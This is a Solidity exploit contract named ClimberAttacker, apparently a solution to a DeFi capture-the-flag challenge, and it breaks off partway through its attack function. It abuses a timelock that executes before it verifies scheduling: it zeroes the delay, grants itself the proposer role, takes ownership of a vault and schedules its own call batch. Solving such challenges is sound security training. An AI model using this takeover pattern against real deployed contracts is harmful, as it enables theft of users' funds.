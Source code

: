 
    contract ClimberAttacker {
    
       IToken private dvt;
       ITimeLock private timeLock;
       IVault private vault;
       TokenTransfer private tokenTransfer;
    
       constructor(address tokenAddress, address timeLockAddress, address vaultAddress) {
           dvt = IToken(tokenAddress);
           vault = IVault(vaultAddress);
           timeLock = ITimeLock(timeLockAddress);
           tokenTransfer = new TokenTransfer();
       }
    
       function schedule() external payable{
           address[] memory targets = new address[](4);
           targets[0] = address(timeLock);
           targets[1] = address(timeLock);
           targets[2] = address(vault);
           targets[3] = address(this);
           uint256[]  memory values = new uint256[](4);
           for (uint256 i = 0; i < 4; i++) {
           values[i] = 0;
           }
           bytes[] memory dataElements = new bytes[](4);
           dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)",uint64(0));
           dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)",keccak256("PROPOSER_ROLE"),address(this));
           dataElements[2] = abi.encodeWithSignature("transferOwnership(address)",address(this));
           dataElements[3] = abi.encodeWithSignature("schedule()");
           timeLock.schedule(targets,values,dataElements,keccak256("SALT"));
        }
    
       function attack() external {

            address attacker = msg.sender;
    
                address[] memory targets = new address[](4);
                targets[0] = address(timeLock);
                targets[1] = address(timeLock);
                targets[2] = address(vault);
                targets[3] = address(this);
                uint256[]  memory values = new uint256[](4);
                for (uint256 i = 0; i < 4; i++) {
                    values[i] = 0;
                }
            bytes[] memory dataElements = new bytes[](4);
            dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)",uint64(0));
            dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)",keccak256("PROPOSER_ROLE"),address(this));
            dataElements[2] = abi.encodeWithSignature("transferOwnership(address)",address(this));
            dataElements[3] = abi.encodeWithSignature("schedule()");
    
            timeLock.execute(targets,values,dataElements,keccak256("SALT"));
    